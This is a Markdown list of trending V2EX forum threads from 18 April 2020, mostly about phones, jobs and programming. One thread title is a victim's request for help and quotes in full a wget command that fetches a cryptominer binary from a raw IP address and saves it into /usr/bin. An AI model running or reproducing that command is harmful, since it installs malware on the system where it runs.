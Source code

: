 # 2020-4-18 v2ex热点列表

+ [一加 8 和小米 10 买哪个](https://www.v2ex.com/t/663719#reply78) [78]
+ [现在还有人装太阳能热水器的吗](https://www.v2ex.com/t/663652#reply65) [65]
+ [与比你聪明的人交流需要注意什么？](https://www.v2ex.com/t/663695#reply53) [53]
+ [国内有哪些软件下载站比较好](https://www.v2ex.com/t/663784#reply49) [49]
+ [求内推，深圳前端 99 年，第一次发帖](https://www.v2ex.com/t/663710#reply46) [46]
+ [se 国行红色背部好像去掉了 product red 标志？](https://www.v2ex.com/t/663644#reply41) [41]
+ [别买小米 10， 又开始抽奖了](https://www.v2ex.com/t/663797#reply35) [35]
+ [一加 7 氢 OS 刷氧 OS 的较完美实践](https://www.v2ex.com/t/663707#reply32) [32]
+ [现在学 iOS 和安卓开发晚吗， Flutter 如何？](https://www.v2ex.com/t/663678#reply31) [31]
+ [纯技术讨论破解安全措施](https://www.v2ex.com/t/663751#reply28) [28]
+ [深港 IPLC 沪美 IPLC 这种东西好像需求不大了](https://www.v2ex.com/t/663828#reply25) [25]
+ [哪款云笔记，支持代码高亮？](https://www.v2ex.com/t/663757#reply25) [25]
+ [ThreadLocalMap 的源码看起来会考虑一种哈希冲突的情况，但不是 ThreadLocal 本身实现了完美散列吗？](https://www.v2ex.com/t/663692#reply23) [23]
+ [便携 windows 便宜平板那家强?](https://www.v2ex.com/t/663748#reply23) [23]
+ [有人通过键盘服务计划更换过 Macbook Pro 的键盘吗？前后使用感受变化大吗？](https://www.v2ex.com/t/663641#reply22) [22]
+ [关于面试问设计模式](https://www.v2ex.com/t/663689#reply22) [22]
+ [一个不买 ES2 的理由](https://www.v2ex.com/t/663773#reply22) [22]
+ [什么 Java 这么难找工作，你们不去学前端呢？](https://www.v2ex.com/t/663660#reply21) [21]
+ [求助，每小时被执行恶意下载挖矿程序 wget -q -T1800 http://103.27.42.76:41933/static/5023/ddgs.x86_64 -O /usr/bin/uvggee 求大佬](https://www.v2ex.com/t/663696#reply21) [21]
+ [咪咕音乐有没有 Mac 客户端或第三方替代品](https://www.v2ex.com/t/663664#reply20) [20]
+ [Java8 IDEA 三元表达式总不让写 为啥?](https://www.v2ex.com/t/663684#reply20) [20]
+ [Deepin v20 要求最少 64g。Emmmm](https://www.v2ex.com/t/663732#reply19) [19]
+ [Linux 下什么虚拟机比较好？](https://www.v2ex.com/t/663789#reply19) [19]
+ [听说微信公众号开始乱序时间轴的内测了，无力吐槽了](https://www.v2ex.com/t/663819#reply18) [18]
+ [中科院系的域名都是 xxx.ac.cn, 但不是子域名?](https://www.v2ex.com/t/663781#reply18) [18]
+ [OxygenOS 一般什么时候会放出新机器的可下载包?](https://www.v2ex.com/t/663687#reply17) [17]
+ [nginx 熟悉的来，求教个问题](https://www.v2ex.com/t/663708#reply17) [17]
+ [春招校招 offer 求比较](https://www.v2ex.com/t/663795#reply17) [17]
+ [闲鱼发布租房，总有人让加微信聊是什么套路？](https://www.v2ex.com/t/663667#reply16) [16]
+ [Deepin v20 beat 发布, 试了一下,没深用, 界面和特效挺好看, 是不是徒有虚表?还是真有实力.](https://www.v2ex.com/t/663649#reply15) [15]
+ [我怀疑这是 Python for 的一个 bug](https://www.v2ex.com/t/663761#reply15) [15]
+ [IDEA 有没有什么插件可以标记源码？](https://www.v2ex.com/t/663662#reply14) [14]
+ [下周就去北京找工作了](https://www.v2ex.com/t/663669#reply14) [14]
+ [新 iPad 妙控键盘已经可以下单，有木有买的](https://www.v2ex.com/t/663729#reply14) [14]
+ [清华和北大 , 哪个才是 T0 级别的?](https://www.v2ex.com/t/663804#reply14) [14]
